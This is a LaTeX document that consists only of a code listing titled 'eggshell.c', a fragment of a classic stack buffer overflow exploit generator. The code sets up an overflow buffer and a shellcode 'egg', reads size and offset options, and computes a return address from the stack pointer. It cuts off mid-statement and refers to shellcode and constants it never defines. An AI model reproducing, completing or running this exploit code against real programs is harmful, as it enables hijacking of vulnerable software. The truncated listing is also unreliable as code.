 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=eggshell.c]
#define DEFAULT_BUFFER_SIZE             512

#define DEFAULT_EGG_SIZE               2048

void usage(void);

void main(int argc, char *argv[]) {

  char *ptr, *bof, *egg;

  long *addr_ptr, addr;

  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

  while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)

    switch (c) {

      case 'a':

        align = atoi(optarg);

        break;

      case 'b':

        bsize = atoi(optarg);

        break;      case 'e':

        eggsize = atoi(optarg);

        break;

      case 'o':

        offset = atoi(optarg);

        break;

      case '?':

        usage();

        exit(0);

    }

  if (strlen(shellcode) > eggsize) {

    printf("Shellcode is larger the the egg.\n");

    exit(0);

  }

  if (!(bof = malloc(bsize))) {

    printf("Can't allocate memory.\n");

    exit(0);

  }

  if (!(egg = malloc(eggsize))) {

    printf("Can't allocate memory.\n");

    exit(0);

  }

  addr = get_sp() - offset;

  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",


\end{lstlisting}}
\end{document}
